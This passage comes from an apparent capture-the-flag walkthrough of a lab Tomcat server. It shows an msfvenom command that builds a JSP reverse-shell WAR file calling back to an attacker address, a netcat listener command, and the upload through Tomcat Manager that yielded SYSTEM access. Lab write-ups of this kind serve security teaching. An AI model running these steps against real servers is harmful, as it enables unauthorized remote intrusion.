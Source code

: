 To obtain a reverse shell and gain initial access to the system, we leveraged `msfvenom` to generate a malicious `.war` file containing a JSP reverse shell payload. This payload, when executed on the Tomcat server, would connect back to our attacking machine.

The following `msfvenom` command was used:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=9001 -f war > shell.war
```

![msfvenom rev shell](./images/08-msfvenom.png)

- `-p java/jsp_shell_reverse_tcp`: Specifies the payload as a Java Server Pages (JSP) reverse TCP shell.
- `LHOST=10.10.14.9`: Sets the local host IP address (our attacking machine's IP on the VPN).
- `LPORT=9001`: Sets the local port on which our listener will be waiting.
- `-f war`: Specifies the output format as a `.war` file.
- `> shell.war`: Redirects the output to a file named `shell.war`.
Before deploying the `shell.war` file, a Netcat listener was set up on our attacking machine to catch the incoming reverse shell connection.

```bash
nc -lvnp 9001
```
![Netcat](./images/09-netcat.png)

- `nc`: Netcat command.
- `-l`: Listen mode.
- `-v`: Verbose output.
- `-n`: Numeric-only IP addresses (no DNS lookups).
- `-p 9001`: Listen on port 9001.

Finally, the generated `shell.war` file was uploaded through the Apache Tomcat Web Application Manager interface. Once uploaded, the web application was automatically deployed by Tomcat, triggering the reverse shell connection back to our Netcat listener.

![Upload Shell](./images/10-upload-shell.png)

### 8. Gaining Initial Access and Retrieving Flags

Upon successful deployment of the `shell.war` file and accessing the deployed web application (e.g., `http://10.10.10.95:8080/shell/`), our Netcat listener caught an incoming connection, granting us a reverse shell on the target machine. A quick `whoami` command confirmed that we had obtained `nt authority\system` privileges, indicating root-level access.
